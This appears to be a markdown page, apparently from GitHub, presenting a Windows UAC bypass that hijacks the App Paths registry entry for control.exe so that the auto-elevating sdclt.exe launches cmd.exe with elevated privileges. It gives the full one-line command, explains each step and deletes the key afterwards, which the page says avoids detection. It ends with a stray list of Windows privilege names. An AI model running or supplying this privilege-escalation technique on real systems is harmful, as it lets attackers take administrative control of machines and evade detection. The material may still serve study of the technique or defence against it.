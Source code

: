 ## UAC(User Account Control) Bypass via ``sdclt.exe`` and App Path Hijak

### Command

```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /d "cmd.exe" /f && START /W sdclt.exe && reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f
```

---

### How it Works

#### 1. Registry Hijack

*   Adds a key to ``App Paths`` under ``HKCU`` that changes how ``control.exe`` is resolved
*   Instead of launching the Control Panel it will launch ``cmd.exe``

```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /d "cmd.exe" /f
```

#### 2. Trigger Auto-Elevation

* Launches ``sdclt.exe``, a trusted Microsoft binary with auto-elevation
*   ``sdclt.exe`` internally attempts to launch ``control.exe``, which due to the registry hijack actually launches ``cmd.exe``
*   As a result ``cmd.exe`` **runs with elevated privileges**

```cmd
START /W sdclt.exe
```

#### 3. Cleanup

*   Deletes the hijacked registry key to avoid persistence or detection

```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f
```

seBackup 
seRestore
seImpersonate
setimezone
